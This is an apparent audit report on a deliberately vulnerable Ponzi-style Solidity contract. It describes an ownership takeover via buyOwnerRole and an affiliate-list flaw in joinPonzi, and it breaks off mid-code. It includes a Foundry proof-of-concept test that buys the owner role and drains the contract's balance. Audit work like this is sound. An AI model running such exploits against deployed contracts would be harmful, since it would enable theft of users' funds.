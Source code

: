 # Ponzi Contract Audit.

# 1. Stealing owner's rights and user's funds.
https://github.com/cartlex/PonziContract-Audit/blob/14eef76f48e70c6a2fb10c20a3148d95da6d6b8d/src/PonziContract/PonziContract.sol#L50-L53
## Description
In `PonziContract.sol` there is a function `buyOwnerRole()`. It's possible for any user to call it and claim an owner's rigths for 10 ether.
```
    function buyOwnerRole(address newAdmin) external payable onlyAfilliates {
        require(msg.value == 10 ether, "Invalid Ether amount"); // @audit risk of stealing owner's rights
        _transferOwnership(newAdmin);
    }
```
## POC
```
function testBuyOwnerRole() public {
        uint256 multiplier = 2;
        vm.startPrank(owner);
        ponziContract.addNewAffilliate(address(person1));
        assertEq(ponziContract.owner(), address(owner));
        assertEq(address(person1).balance, ETHER_TO_TRANSFER);

        changePrank(person1);
        // person1 buying contract owner position
        ponziContract.buyOwnerRole{value: ETHER_TO_TRANSFER}(address(person1));
        assertEq(ponziContract.owner(), address(person1));
        // person1 withdraw funds from contract.
        ponziContract.ownerWithdraw(address(person1), address(ponziContract).balance);
        assertEq(address(person1).balance, ETHER_TO_TRANSFER * multiplier);
        vm.stopPrank();
    }
```
`Person1` successfully steal users funds.

## Recomendation
Remove possibility to buy owners rigths.


# 2. Users lost their funds calling `JoinPonzi()` function.
https://github.com/cartlex/PonziContract-Audit/blob/14eef76f48e70c6a2fb10c20a3148d95da6d6b8d/src/PonziContract/PonziContract.sol#L32-L48
## Description
In `PonziContract.sol` there is a function `joinPonzi()`. Calling this function has no effect for user except just waste gas. One possible attack that owner can add himself twice or more into `_afilliates` array and user just lose his funds.
```
    function joinPonzi(
        address[] calldata _afilliates
    ) external payable nonReentrant {
        require(
            block.timestamp < registrationDeadline,
            "Registration not Active!"
        );
        require(_afilliates.length == affiliatesCount, "Invalid length");
        require(msg.value == affiliatesCount * 1 ether, "Insufficient Ether");
```